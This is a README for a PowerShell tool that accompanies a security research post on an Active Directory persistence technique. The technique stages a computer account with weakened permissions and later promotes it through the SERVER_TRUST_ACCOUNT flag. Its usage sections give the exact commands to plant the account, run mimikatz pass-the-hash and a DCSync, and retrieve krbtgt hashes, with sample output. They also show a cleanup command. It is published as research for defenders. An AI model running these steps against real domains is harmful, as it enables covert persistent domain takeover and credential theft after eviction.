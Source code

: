 # Server (Un)Trust Account
Server (Un)Trust Account is an Active Directory persistence technique we uncovered during some other research, and have not seen previously documented. It allows an attacker to regain domain administrator privileges after losing them or being evicted from the network; simply, they must only regain a foothold on any computer. With that, the attacker can abuse documented behavior of the `userAccountControl` value `SERVER_TRUST_ACCOUNT` to promote a previously staged computer account to domain controller privileges.

This code accompanies a [blog post](https://blog.stealthbits.com/server-untrust-account), which provides greater detail.

# Usage

## Add-ServerUntrustAccount
This function creates a computer object with a known password and grants the necessary permissions to exploit `SERVER_TRUST_ACCOUNT` persistence. It is designed to run with domain administrator privileges and performs the following activities:
* Creates a computer object with a known password
* Creates new ACE on the domain object to grant AuthenticatedUsers the Ds-Install-Replica permission
* Creates new ACE on the created computer object to grant AuthenticatedUsers Write UserAccountControl permission 

```
PS > . .\ServerUntrustAccount.ps1
PS > Add-ServerUntrustAccount -ComputerName FakeComputer123 -Password "Abc123!@#"
PS > 
```

## Invoke-ServerUntrustAccount
This function utilizes the permissions and computer object created by Add-ServerUntrustAccount in order to regain domain dominance. It sets the UAC bit flag for `SERVER_TRUST_ACCOUNT`, then uses mimikatz to pass-the-hash as the staged computer account, and finally performs a DCSync to replicate the krbtgt hashes. It is designed to be run by any authenticated user in the domain.

```
PS > . .\ServerUntrustAccount.ps1
PS > Invoke-ServerUntrustAccount -ComputerName FakeComputer123 -Password "Abc123!@#" -MimikatzPath "C:\Windows\Temp\mimikatz.exe"
Hashes for KRBTGT:
  NTHash: a3dd...
  AES128: j916...
  AES256: k093...
```

## Remove-ServerUntrustAccount
This function removes accounts and permissions created using `Add-ServerUntrustAccount`. It performs the following actions:
 * Remove the DS-Install-Replica permission on the domain object for the specified computer or managed service account
 * Remove the modify userAccountControl permission on the specified computer or managed service account object
 * With the deleteComputer switch enabled, also deletes the specified computer or managed service account object

```
PS > . .\ServerUntrustAccount.ps1
PS > Remove-ServerUntrustAccount -ComputerName FakeComputer123 -DeleteComputer

Confirm
Are you sure you want to perform this action?
Performing the operation "Remove" on target "CN=FakeComputer123,CN=Computers,DC=domain,DC=local".
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "Y"):
PS >

